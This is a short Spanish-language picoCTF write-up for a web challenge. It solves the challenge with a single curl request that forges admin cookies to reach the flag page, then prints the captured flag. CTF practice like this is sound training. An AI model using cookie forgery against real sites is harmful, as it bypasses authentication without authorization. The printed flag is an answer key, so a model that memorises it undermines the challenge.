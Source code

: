 ## Descripción:
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594

# Solución
```bash
MpaulaCG-picoctf@webshell:~$ curl -X GET https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: username=admin; password=admin; admin=True" | grep pico 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0   7510      0 --:--:-- --:--:-- --:--:--  7540
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>
```
Respuesta:`picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}`
## Notas

## Referencias
 